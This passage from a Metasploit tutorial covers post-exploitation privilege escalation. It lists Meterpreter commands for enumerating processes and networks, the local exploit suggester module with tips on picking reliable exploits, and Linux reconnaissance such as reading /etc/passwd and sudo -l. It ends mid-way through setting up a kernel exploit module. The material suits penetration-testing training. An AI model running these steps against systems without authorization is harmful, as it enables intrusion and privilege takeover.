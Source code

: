 ```
### Process Enumeration

```
meterpreter > ps
meterpreter > pgrep [process_name]
```

### Network Configuration

```
meterpreter > ipconfig
meterpreter > route
meterpreter > netstat -ano
```

## Local Exploit Suggester

The local exploit suggester is one of the most valuable tools for privilege escalation. It analyzes the target system and suggests potential local exploits based on the system's configuration, patch level, and known vulnerabilities.

```
meterpreter > run post/multi/recon/local_exploit_suggester

# For a regular shell session
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION <session-id>
msf6 post(multi/recon/local_exploit_suggester) > set SHOWDESCRIPTION true
msf6 post(multi/recon/local_exploit_suggester) > run
```

### Tips for Using Local Exploit Suggester

- Run it multiple times as it may produce different results
- Pay attention to the "Rank" of suggested exploits (Excellent/Great/Good)
- Check the "Reliability" of suggested exploits to avoid system crashes
- Some suggested exploits may be false positives
- Always verify that the exploit matches the target system's architecture (x86/x64)

## Linux Privilege Escalation

### System Enumeration

```
meterpreter > shell
$ uname -a
$ cat /etc/issue
$ cat /proc/version
$ lscpu
$ cat /etc/passwd
$ id
$ sudo -l
```

### Linux Kernel Exploits

```
# After finding a suitable exploit with local_exploit_suggester
msf6 > use exploit/linux/local/[exploit_name]
msf6 exploit(linux/local/[exploit_name]) > set SESSION <session-id>
msf6 exploit(linux/local/[exploit_name]) > set LHOST <your-ip>
